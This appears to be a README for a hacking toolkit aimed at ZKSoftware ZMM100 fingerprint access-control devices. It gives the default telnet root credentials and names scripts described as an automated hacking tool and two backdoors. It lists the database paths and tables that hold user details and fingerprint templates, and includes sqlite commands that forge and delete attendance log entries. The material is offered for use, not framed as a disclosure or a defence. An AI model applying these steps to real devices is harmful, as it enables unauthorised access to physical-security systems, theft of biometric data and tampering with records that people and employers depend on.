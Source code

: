 # Hacking Embedded Devices :

```
Hardware platform ZMM100 :
The fingerprint access control device Made by ZKSoftware.
```

* - Default User/Password : __root:solokey__
- Protocol : Telnet (23).

## Scripts :
 * __pwnit.py__ : Automated tool for hacking devices.
 * __hell__ : second backdoor.
 * __leak-data.sh__ : third backdoor.
 
 
 
## YouTube Video :

![image alt text](https://i.imgur.com/lxZCj4Z.png)
[https://www.youtube.com/watch?v=Zd1N0CbvR0k](https://www.youtube.com/watch?v=Zd1N0CbvR0k&feature=youtu.be)

## Change root password :

```
passwd
{ enter new root password }
cp /etc/passwd /mnt/mtdblock
cp /etc/passwd /mnt/mtdblock/data/
```

## More Info :

```
This directory "mnt/ramdisk" contains : picture.jpg , finger.bmp.
Web directory  "/mnt/mtdblock/service/webserver" contains : some shitty csl web files lol.
Database here : "/mnt/mtdblock/data/ZKDB.db"
Important tables : "ATT_LOGS" ( user logs ) , "USER_INFO" ( user informations ) , "fptemplate10"  ( finger print data ).
-- https://i.imgur.com/yNfVNSH.png ( ATT_LOGS ).
-- https://i.imgur.com/ujiIqzf.png ( USER_INFO ).
-- https://i.imgur.com/ilGwFZB.png ( fptemplate10 ).

> https://github.com/adrobinoga/zk-protocol/blob/master/sections/data-user.md#example-of-a-template-entry
SQLite ELF File : "/mnt/mtdblock/data/sqlite3_arm" --> ./sqlite3_arm ZKDB.db;

```

### Insert / Delete DATA :

- Insert : ./sqlite3_arm ZKDB.db "INSERT INTO ATT_LOG VALUES (null,__1224__,15,__'2019-04-12T00:00:00'__,'0','0',null,null,null,null,0);"

- Delete log : ./sqlite3_arm ZKDB.db "DELETE FROM ATT_LOG WHERE ID = __1224__;"

> Shit its amazing 3:) !


 #### References :
https://blog.infobytesec.com/2014/07/perverting-embedded-devices-zksoftware_2920.html
https://github.com/linsir/pyscripts/tree/master/zkteco_check_in
